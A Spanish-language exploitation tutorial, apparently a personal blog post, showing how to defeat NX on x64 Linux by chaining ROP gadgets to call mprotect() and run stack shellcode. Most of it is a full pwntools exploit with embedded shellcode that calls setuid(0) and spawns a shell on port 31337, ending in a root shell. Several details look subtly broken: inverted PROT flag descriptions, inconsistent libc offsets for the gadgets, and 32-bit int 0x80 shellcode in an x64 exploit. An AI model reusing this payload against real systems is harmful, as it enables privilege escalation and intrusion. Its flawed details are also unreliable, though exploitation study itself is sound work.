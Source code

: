 ```yaml
---
layout: post
title: Bypass NX usando mprotect() en x64
author: c4rta
date: 2023-02-26
categories: [Explotacion binaria]
tags: [ROP]
image: 
  path: /assets/img/heap2/waifu3.jpg
---
```

{:.lead}

En ocasiones se nos presenta la situacion donde tenemos el NX activado y tenemos que recurrir a tecnicas como ```ret2libc```, ```ret2reg```, mas que nada tecnicas que usen ```ROP```. Asi que ahora te voy a mostrar como usar ```mprotect()``` para volver a marcar el stack como ejecutable y puedas inyectar una shellcode.

## mprotect()

Segun la man page de Linux ```mprotect``` es:

mprotect () cambia las protecciones de acceso para las páginas de memoria del proceso de llamada que contienen cualquier parte del rango de direcciones en el intervalo [addr, addr+len-1]. addr debe estar alineado con el límite de la página... En caso de éxito, mprotect () devuelve cero. En caso de error, esta llamada al sistema devuelve -1 y errno para indicar el error. se establece

Y aca mas entendible seria que mprotect es la funcion que establece los permisos de lectura y escritura a cierta area de memoria. Esta funcion toma 3 argumentos:

- Una direccion inicial
- La longitud, que seria el rango en que podemos modificar
- Y una combinacion de banderas que son las que haran que se establezcan los permisos, estas banderas son:
    - **PROT_READ**: La memoria no se puede leer
    - **PROT_WRITE**: La memoria no se puede modificar/escribir
    - **PROT_EXEC**: La memoria no se puede ejecutar o no es ejecutable


## Crafteando el exploit

### Codigo vulnerable

```c
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
```
No hace falta hacer reversing por que la vulnerabilidad se encuentra en la funcion ```gets```

Como estamos en 64 bits los primero 6 argumentos se pasan los registros RDI, RSI, RDX, RCX, R8 y R9, y cualquier cosa despues se empieza a pasar por el stack.

En x64 para poder hacer esta tecnica ocupados de:

- La direccion base de libc
- Un gadget **pop rdi**; ret: este funcionara para poner la direccion de la pila en rdi
- Un gadget **pop rsi**; ret: esta funcionara para poner la longitud en rsi
- Un gadget **pop rdx**; ret,: este funcionara para establecer el valor 0x7 en rdx, este valor es el de los permisos de lectura, escritura y ejecucion.

Algo asi se llamaria a la funcion mprotect:

```c
#incluye <sys/mman.h> 

       int mprotect(void * addr, size_t len, int prot);
                            |            |        |
                            |            |        |
                           RDI          RSI      RDX
```

### Sacando la direccion de libc

Dentro del debugger podemos ingresar el comando ```vmmap libc```, obviamente antes hay que ejecutar el binario. Podemos ver la direccion base de libc:

```
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x007ffff7db6000 0x007ffff7dd8000 0x00000000000000 r-- /usr/lib/libc.so.6
0x007ffff7dd8000 0x007ffff7f32000 0x00000000022000 r-x /usr/lib/libc.so.6
0x007ffff7f32000 0x007ffff7f8a000 0x0000000017c000 r-- /usr/lib/libc.so.6
0x007ffff7f8a000 0x007ffff7f8e000 0x000000001d4000 r-- /usr/lib/libc.so.6
0x007ffff7f8e000 0x007ffff7f90000 0x000000001d8000 rw- /usr/lib/libc.so.6
gef➤ 
```
La direccion que usare es ```0x007ffff7db6000```

### Offset del RIP

Como estamos en x64 podemos hacer uso del offset del RSP o del RBP y sumarle 8.

Como estoy usando GEF, ingresare el comando ```pattern create 300```, para generar 300 caracteres que le pasaremos como input. Una vez que el programa pete ingresare ```pattern offset $rbp``` para pasar el offset del RBP:

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
```
Ahora le sumamos 8 y nos da 264 que seria el desplazamiento para llegar al RIP.

Hace rato les mencione que mprotect recibia un argumento que es la longitud, debido a que la cadena que le metimos esta desde la direccion ```0x007fffffffe418```, podemos usar una direccion anterior lo suficientemente grande. Regularmente la longitud que se le pasa a mprotect en estos casos es ```0x1000```, la cual podra ser desde la direccion ```0x7ffffffffe000```

```
0x007fffffffe418│+0x0000: "iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"	 ← aca estan
0x007fffffffe420│+0x0008: "jaaaaaabkaaaaaablaaaaaabmaaa"
0x007fffffffe428│+0x0010: "kaaaaaablaaaaaabmaaa"
0x007fffffffe430│+0x0018: "laaaaaabmaaa"
0x007fffffffe438│+0x0020: 0x007f006161616d ("maaa"?)
0x007fffffffe440│+0x0028: 0x007fffffffe528  →  0x007fffffffe89f  →  "/home/c4rta/Downloads/mprotect"
0x007fffffffe448│+0x0030: 0xc91dfa2faf99b844
0x007fffffffe450│+0x0038: 0x0000000000000000
────────────────────────────────────────────
```

Hasta ahora nuestro exploit va asi:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
```

### Direccion de mprotect

Dentro de gdb podemos usar ```p mprotect``` y nos da esto:

```
gef➤  p mprotect
$1 = {<text variable, no debug info>} 0x7ffff7eb62f0 <mprotect>
```

### Direcciones de los gadgets

En mi caso usare ROPGadget pero puden usar ropper o radare2, aqui les puedo decir que no me arrojo ningun gadget, eso no es problema cuando se nos proporciona la libreria que esta usando, en este caso como lo compile en mi maquina, uso la libreria que se encuentra en ```/usr/lib/libc.so.6```, asi que esa la podemos usar para sacar los gadgets con el comando:

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi"```: 0x0000000000023d35

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rsi"```: 0x0000000000025641

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdx"```: 0x000000000004e062


### Ejecutando el exploit final

Despues de agregar lo que le falta tenemos este exploit:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
mprotect_addr = 0x7ffff7eb62f0
pop_rdi = 0x0000000000023d35
pop_rsi = 0x0000000000025641
pop_rdx = 0x000000000004e062

payload = b"\x90" * 264
payload += p64(pop_rdi)
payload += p64(stack_addr)
payload += p64(pop_rsi)
payload += p64(size)
payload += p64(0xAAAAAAAAAAAAAAAA) #junk para r15
payload += p64(libc_base + pop_rdx)
payload += p64(0x7)
payload += p64(mprotect_addr)
payload += p64(0x007fffffffe418) #direccion desde donde comenzara la shellcode
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
```
**Ojo:** Antes de ejecutarlo hay que ponernos en escucha por el puerto 31337, ya que la shellcode ejecuta un ```setuid(0)``` y establece una conexion con nosotros mismos por ese puerto


```
󰣇  c4rta ~/Downloads  nc 192.168.1.76 31337 -v
Connection to 192.168.1.76 31337 port [tcp/*] succeeded!
whoami
root
```

Y asi conseguimos ser root, muchas gracias por leer ❤

![](/assets/img/heap2/waifu3.jpg)